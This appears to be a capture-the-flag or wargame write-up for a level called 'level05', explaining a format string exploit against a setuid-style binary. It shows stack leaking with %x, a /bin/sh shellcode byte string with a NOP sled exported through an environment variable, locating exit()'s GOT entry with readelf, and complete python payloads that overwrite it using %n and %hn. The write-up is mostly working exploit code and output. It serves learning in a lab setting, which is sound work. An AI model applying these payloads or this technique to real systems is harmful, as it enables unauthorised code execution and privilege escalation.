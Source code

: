 # level05
RELRO protection is disable  
Presumption: Overwrite the __Global Offset Table (GOT)__

## Step 1: Understand the program
1. The program reads 100 bytes and store it in a buffer of 100 bytes (no segfault)
2. The program iterates over the buffer, and convert uppercase to lowercase (useless)
3. The program prints the raw buffer with an unprotected printf. __This is a format string vulnerablity__
4. finally, the program exits with `exit(0)`


## Goal 
Replace the `exit()` relocation address in the GOT to target a shellcode instead (thanks to the `%n` specifier)


## Step 2: Leak the stack
Leak the stack to find somethings interesting

```bash
$ ./level05 
aaaa %x %x %x %x %x %x %x %x %x %x %x %x
```
```console
aaaa 64 f7fcfac0 f7ec3af9 ffffd6ef ffffd6ee 0 ffffffff ffffd774 f7fdb000 61616161 20782520 25207825
```

Yeah ! We have access to the buffer through the __10th__ specifer `%x`

## Step 3: Export a  shellcode and locate it
```bash
export SHELLCODE=`python -c 'print "\x90" * 100 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"'`
```

shellcode given [here](https://shell-storm.org/shellcode/files/shellcode-752.html) (21 bytes long)
```bash
(gdb) x/20s *((char **)environ)
```
```console
0xffffd871:	 "SHELLCODE=\220\220[...]\220\220\061\311\367\341Qh//shh/bin\211\343\260\v̀"
```

shellcode is at `0xffffd871`. It begin by 100 NOOPs  

__`0xffffd871` = 4294957169__

## Step 4 : Find `exit()` in the GOT


Find the __GOT__ entry of `exit()`
```bash
readelf -r level05 | grep exit
```
```console
080497e0  00000407 R_386_JUMP_SLOT   00000000   exit
```

The address of `exit()` is stored at `0x080497e0` in the __GOT__


## Exploit

1. Write the `exit()` entry point address in the buffer
2. Access to the buffer with the 10th specifier
3. Replace the address specified in the buffer by the address of the shellcode using `%n` (%n take a pointer to int32).


```bash
(python -c 'print "\x08\x04\x97\xe0"[::-1] + "%4294957165d" + "%10$n"'; cat) | /home/users/level05/level05
```

4294957165 = 4294957169 - 4 --> (4 = characters already printed)

It doesn't work because `4294957165` is too much


### Necessary to optimize

We want to write `0xffffd871` at `0x080497e0`, That is to write 4 bytes at `0x080497e0`  

### Solution
We can write two bytes at a time:
- `0xd871` at `0x080497e0`
- `0xffff` at `0x080497e2`


```bash
(python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%55401d" + "%10$hn" + "%10126d" + "%11$hn" '; cat) | /home/users/level05/level05
```
- 55401 = 0xd871 - 8 ----------> (8 = characters already printed)
- 10126 = 0xffff - 55401 - 8 --> (55401 + 8 = characters already printed)

`%hn` is used to write 2 bytes at a time


> `%hn`: 'h' means short int. So it specified a pointer on  `int16` (2 bytes) instead of a pointer on `int32`  
> It is also possible to jump in the middle of the NOOPs